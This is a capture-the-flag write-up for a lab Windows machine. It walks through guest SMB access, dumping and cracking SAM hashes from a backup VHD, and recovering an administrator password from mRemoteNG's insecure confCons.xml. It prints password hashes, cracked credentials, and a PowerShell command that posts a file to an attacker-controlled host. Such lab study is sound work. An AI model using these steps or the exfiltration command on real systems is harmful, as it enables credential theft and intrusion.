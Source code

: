 ![](./logo.png)

Scanning the box gives us a `smb` share with guest access.

Running:

```
smbclient.py guest@10.10.10.134
```

There is a `Backups` share that allows us access to a `.vhd` file.

I'm going to investigate with the tool `guestfs`. This allows me to mount the `.vhd` file locally and investigate.

This was okay to mount the small `.vhd` file, but downloading the ~5GB is an issue. In end downloading the large VHD was the option taken.

On the VHD file is the `SAM` and `SYSTEM` hives. These can be downloaded and the hashes of the users can be extracted.

Running `pwdump.py` gives us:

```
$ ./pwdump.py SYSTEM SAM

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

Cracking the hash for L4mpje gives use the password:

```
L4mpje
bureaulampje
```

This lets us login via `ssh` and grab the `user.txt`!

# ROOT

Found a non-standard tool called `mRemoteNG`

With some research I've found out that `mRemote` saves files in an insecure way within the `confCons.xml` file.


Running this command below to extract the file

```
powershell Invoke-WebRequest -Uri http://10.10.14.55:8080 -Method Post -Infile <FILE_NAME>
```

Reading the link [here](http://hackersvanguard.com/mremoteng-insecure-password-storage/) states that a confCons.xml file can be read into the mRemoteNG program and the password can be viewed.

Navigating to:

```
C:\Users\L4mpje\AppData\Roaming\mRemoteNG
``` 

On the machine gives us access to a `confCons.xml` file.

Loading this into mRemoteNG and following the instructions to add:

```
/k echo %password%
```

As the command allows us to view the password

```
Administrator
thXLHM96BeKL0ER2
```

This can be used to log in via SSH and retrieve the flag!